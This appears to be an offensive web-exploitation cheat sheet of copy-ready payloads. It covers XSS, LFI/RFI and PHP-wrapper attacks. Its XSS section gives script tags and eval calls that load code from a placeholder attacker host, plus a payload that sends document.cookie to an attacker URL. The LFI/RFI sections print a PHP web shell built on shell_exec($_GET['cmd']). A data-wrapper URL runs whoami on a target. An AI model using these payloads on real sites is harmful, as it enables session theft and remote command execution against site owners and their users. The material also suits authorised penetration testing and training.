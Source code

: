 # XSS

### reference: special characters for HTML and javascript
```
< > # used to denote HTML elements 
' " # strings
{ } # javascript function declarations
;   # end of statement
```
---

### reference: substitutions
```
; -> + # some application servers and firewalls block semicolons ';'
```
---

### php: file extension bypass
```
%00 # null byte in the URL will bypass the file extension in older PHP servers 
?   # ending url with ? will mark anything as part of query string
```
---

### javascript: XSS with script tag 
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
---

### javascript: XSS content injection with iframe
```html
<iframe src=<your_url> height="0" weight="0"></iframe>
```
---

### javascript: XSS cookie exfiltration with javascript
```html
<script>new Image().src="<your_url>/page.html?output="+document.cookie;</script>
```
---

### javascript: payload from the external resource
```html
<script src="http://<your_ip>/xss.js"></script>
```
---

### javascript: use img tag to execute JS
```html
<img src='x' onerror='alert(0)'>
```
---

### javascript: use img tag to execute JS file
```html
<img src="x" onerror="const script=document.createElement('script');script.src='<js_url>';script.async=true;document.body.appendChild(script);">
```
---

# LFI

### php: LFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

# RFI

### php: RFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

# PHP Wrappers

### php: PHP data wrapper example:
```
<vuln_url>/<vuln_path>?<vuln_param>=data:text/plain,<?php echo shell_exec("whoami") ?>

# e.g.: http://10.10.0.2/menu.php?file=data:text/plain,<?php echo shell_exec("whoami") ?>
```
---

